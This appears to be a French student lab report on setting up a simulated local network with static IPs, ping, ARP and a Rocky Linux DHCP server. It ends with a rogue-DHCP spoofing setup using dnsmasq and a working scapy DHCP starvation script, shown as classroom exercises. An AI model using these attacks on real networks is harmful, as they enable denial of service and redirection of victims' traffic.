 **1. Configuration d'un réseau local simple
Trouver les adresses MAC des machines
Pour vérifier l'adresse MAC de chaque machine :**

```PC1> show ip```
```
NAME        : PC1[1]
IP/MASK     : 0.0.0.0/0
GATEWAY     : 0.0.0.0
DNS         : 
MAC         : 00:50:79:66:68:00
LPORT       : 20002
RHOST:PORT  : 127.0.0.1:20003
MTU         : 1500
```
*Adresse MAC de PC1 : 00:50:79:66:68:00*


```PC2> show ip```

```
NAME        : PC2[1]
IP/MASK     : 0.0.0.0/0
GATEWAY     : 0.0.0.0
DNS         : 
MAC         : 00:50:79:66:68:01
LPORT       : 20004
RHOST:PORT  : 127.0.0.1:20005
MTU         : 1500
```
*Adresse MAC de PC2 : 00:50:79:66:68:01*

**Attribuer des adresses IP manuellement
Pour donner une IP à chaque machine :**

```PC1> ip 10.1.1.1/24```
```
Checking for duplicate address...
PC1 : 10.1.1.1 255.255.255.0
```

```PC2> ip 10.1.1.2/24```
```
Checking for duplicate address...
PC2 : 10.1.1.2 255.255.255.0
```
**Tester la communication entre les machines
Avec la commande ping :**

```PC1> ping 10.1.1.2```
```
84 bytes from 10.1.1.2 icmp_seq=1 ttl=64 time=0.302 ms
84 bytes from 10.1.1.2 icmp_seq=2 ttl=64 time=1.539 ms
84 bytes from 10.1.1.2 icmp_seq=3 ttl=64 time=1.405 ms
84 bytes from 10.1.1.2 icmp_seq=4 ttl=64 time=1.170 ms
84 bytes from 10.1.1.2 icmp_seq=5 ttl=64 time=0.281 ms
```

```PC2> ping 10.1.1.1```
```
84 bytes from 10.1.1.1 icmp_seq=1 ttl=64 time=0.185 ms
84 bytes from 10.1.1.1 icmp_seq=2 ttl=64 time=0.165 ms``
84 bytes from 10.1.1.1 icmp_seq=3 ttl=64 time=0.367 ms
84 bytes from 10.1.1.1 icmp_seq=4 ttl=64 time=0.606 ms
84 bytes from 10.1.1.1 icmp_seq=5 ttl=64 time=0.453 ms
```

**Vérifier les adresses avec ARP**

```PC1> arp ```         
```
00:50:79:66:68:01  10.1.1.2 expires in 108 seconds
```

```PC2> arp```
``` 
00:50:79:66:68:00  10.1.1.1 expires in 106 seconds
```

**2. Ajouter un switch et une troisième machine**

```PC3> ip 10.1.1.3```
```
Checking for duplicate address...
PC3 : 10.1.1.3 255.255.255.0
```

**3. Installer un serveur DHCP**

**Donner un accès Internet à la machine dhcp.tp1.efrei**
```
[toto@efrei-xmg4agau1 ~]$ ping google.com
PING google.com (216.58.214.174) 56(84) bytes of data.
64 bytes from mad01s26-in-f174.1e100.net (216.58.214.174): icmp_seq q = 1 ttl I = 63 time 37.0 ms
64 bytes from par10s42-in-f14.1e100.net (216.58.214.174): icmp_seq=2 ttl I = 63 time=29.4 ms
```

**Installer et configurer un serveur DHCP**


je me suis aidé de ce tuto https://gitlab.com/it4lik/b2-network-virt/-/blob/main/memo/rocky_network.md
```
dnf-y install dhcp-server
vi /etc/dhcp/dhcpd.conf
systemctl enable --now dhcpd
```

```
authoritative;
subnet 10.1.1.0 netmask 255.255.255.0 {
	range 10.1.1.10 10.1.1.50;
	option broadcast-address 10.1.1.1;
	option routers 10.1.1.1;
}
```
**Récupérer une IP automatiquement depuis les 3 nodes**

```
PC1> dhcp
DORA IP 10.1.1.10/24 GW 10.1.1.1

PC1> show ip

NAME        : PC1[1]
IP/MASK     : 10.1.1.10/24
GATEWAY     : 10.1.1.1
DNS         : 
DHCP SERVER : 10.1.1.253
DHCP LEASE  : 563, 570/285/498
MAC         : 00:50:79:66:68:01
LPORT       : 20007
RHOST:PORT  : 127.0.0.1:20008
MTU         : 1500
```

```
PC2> dhcp
DDORA IP 10.1.1.12/24 GW 10.1.1.1

PC2> show ip

NAME        : PC2[1]
IP/MASK     : 10.1.1.12/24
GATEWAY     : 10.1.1.1
DNS         : 
DHCP SERVER : 10.1.1.253
DHCP LEASE  : 594, 599/299/524
MAC         : 00:50:79:66:68:00
LPORT       : 20009
RHOST:PORT  : 127.0.0.1:20010
MTU         : 1500
```

```
PC3> dhcp
DDORA IP 10.1.1.11/24 GW 10.1.1.1

PC3> show ip

NAME        : PC3[1]
IP/MASK     : 10.1.1.11/24
GATEWAY     : 10.1.1.1
DNS         : 
DHCP SERVER : 10.1.1.253
DHCP LEASE  : 584, 599/299/524
MAC         : 00:50:79:66:68:02
LPORT       : 20011
RHOST:PORT  : 127.0.0.1:20012
MTU         : 1500
```


**4 DHCP spoofing**

Installation de dnsmasq

```
dnf install -y dnsmasq
```

Configuration de dnsmasq

```
port=0 # pour désactiver DNS
dhcp-range=10.1.1.210,10.1.1.250,255.255.255.0,12h
dhcp-authoritative
interface=enp0s3
```
**TEST**
```
PC4> dhcp
DDORA IP 10.1.1.248/24 GW 10.1.1.50
```

```
PC4> show ip

NAME        : PC4[1]
IP/MASK     : 10.1.1.248/24
```
```
PC2> dhcp
DDORA IP 10.1.1.246/24 GW 10.1.1.50
```
```
PC3> dhcp
DDORA IP 10.1.1.247/24 GW 10.1.1.50
```
```
PC4> dhcp
DORA IP 10.1.1.21/24 GW 10.1.1.1
```

**5 DHCP starvation**

*je vais utilsier le script de cette video*  https://www.youtube.com/watch?v=VW0szfPHeo0&ab_channel=DavidBombal

```
from scapy.all import *

conf.checkIPaddr = False

dhcp_discover = Ether(dst='ff:ff:ff:ff:ff:ff',src=RandMAC()) \
				/IP(src='0.0.0.0',dst='255.255.255.255') \
				/UDP(sport=68,dport=67) \
				/BOOTP(op=1,chaddr = RandMAC()) \
				/DHCP(options=[('message-type','discover'),('end')])

sendp(dhcp_discover,iface='wlp4s0',loop=1,verbose=1)
```




